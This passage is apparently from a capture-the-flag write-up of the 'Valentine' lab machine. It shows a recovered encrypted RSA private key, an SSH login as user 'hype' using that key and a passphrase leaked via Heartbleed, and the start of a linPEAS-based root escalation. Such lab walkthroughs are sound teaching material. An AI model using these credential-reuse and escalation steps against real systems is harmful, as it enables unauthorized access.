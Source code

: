 ```
5y/b46+9nEpCMfTPhNuJRcW2U2gJcOFH+9RJDBC5UJMUS1/gjB/7/My00Mwx+aI6
0EI0SbOYUAV1W4EV7m96QsZjrwJvnjVafm6VsKaTPBHpugcASvMqz76W6abRZeXi
Ebw66hjFmAu4AzqcM/kigNRFPYuNiXrXs1w/deLCqCJ+Ea1T8zlas6fcmhM8A+8P
OXBKNe6l17hKaT6wFnp5eXOaUIHvHnvO6ScHVWRrZ70fcpcpimL1w13Tgdd2AiGd
pHLJpYUII5PuO6x+LS8n1r/GWMqSOEimNRD1j/59/4u3ROrTCKeo9DsTRqs2k1SH
QdWwFwaXbYyT1uxAMSl5Hq9OD5HJ8G0R6JI5RvCNUQjwx0FITjjMjnLIpxjvfq+E
p0gD0UcylKm6rCZqacwnSddHW8W3LxJmCxdxW5lt5dPjAkBYRUnl91ESCiD4Z+uC
Ol6jLFD2kaOLfuyee0fYCb7GTqOe7EmMB3fGIwSdW8OC8NWTkwpjc0ELblUa6ulO
t9grSosRTCsZd14OPts4bLspKxMMOsgnKloXvnlPOSwSpWy9Wp6y8XX8+F40rxl5
XqhDUBhyk1C3YPOiDuPOnMXaIpe1dgb0NdD1M9ZQSNULw1DHCGPP4JSSxX7BWdDK
aAnWJvFglA4oFBBVA8uAPMfV2XFQnjwUT5bPLC65tFstoRtTZ1uSruai27kxTnLQ
+wQ87lMadds1GQNeGsKSf8R/rsRKeeKcilDePCjeaLqtqxnhNoFtg0Mxt6r2gb1E
AloQ6jg5Tbj5J7quYXZPylBljNp9GVpinPc3KpHttvgbptfiWEEsZYn5yZPhUr9Q
r08pkOxArXE2dj7eX+bq65635OJ6TqHbAlTQ1Rs9PulrS7K4SLX7nY89/RZ5oSQe
2VWRyTZ1FfngJSsv9+Mfvz341lbzOIWmk7WfEcWcHc16n9V0IbSNALnjThvEcPky
e1BsfSbsf9FguUZkgHAnnfRKkGVG1OVyuwc/LVjmbhZzKwLhaZRNd8HEM86fNojP
09nVjTaYtWUXk0Si1W02wbu1NzL+1Tg9IpNyISFCFYjSqiyG+WU7IwK3YU5kp3CC
dYScz63Q2pQafxfSbuv4CMnNpdirVKEo5nRRfK/iaL3X1R3DxV8eSYFKFL6pqpuX
cY5YZJGAp+JxsnIQ9CFyxIt92frXznsjhlYa8svbVNNfk/9fyX6op24rL2DyESpY
pnsukBCFBkZHWNNyeN7b5GhTVCodHhzHVFehTuBrp+VuPqaqDvMCVe1DZCb4MjAj
Mslf+9xK+TXEL3icmIOBRdPyw6e/JlQlVRlmShFpI8eb/8VsTyJSe+b853zuV2qL
suLaBMxYKm3+zEDIDveKPNaaWZgEcqxylCC/wUyUXlMJ50Nw6JNVMM8LeCii3OEW
l0ln9L1b/NXpHjGa8WHHTjoIilB5qNUyywSeTBF2awRlXH9BrkZG4Fc4gdmW/IzT
RUgZkbMQZNIIfzj1QuilRVBm/F76Y/YMrmnM9k/1xSGIskwCUQ+95CGHJE8MkhD3
-----END RSA PRIVATE KEY-----#
```
this ssh key is password encrypted.  
Now we can try to login into the system using this key and the password disclosed during the heartbleed attack.  
we can use hype as username as $USERNAME_key, it's a kind of common naming pattern for ssh keys in unix.
```
[root@kali Valentine ]$ ssh $TARGET -l hype -i hype
Enter passphrase for key 'hype':
Welcome to Ubuntu 12.04 LTS (GNU/Linux 3.2.0-23-generic x86_64)

 * Documentation:  https://help.ubuntu.com/

New release '14.04.5 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

Last login: Tue Nov 23 02:34:11 2021 from 10.10.14.4
hype@Valentine:~$
```
and now we got user

## Root
### Method 1 - Opened Tmux Session
Once we are logged in, following our standard approach, let's run linPEAS.    
After we run linPEAS we can see the following marked as a highly probable privilege escalation vector:
```
════════════════════════════════════╣ Processes, Cron, Services, Timers & Sockets ╠════════════════════════════════════                                                                                                                      
╔══════════╣ Cleaned processes                                                                                                                                                                                                               
╚ Check weird & unexpected proceses run by root: https://book.hacktricks.xyz/linux-unix/privilege-escalation#processes                                                                                                                       
```
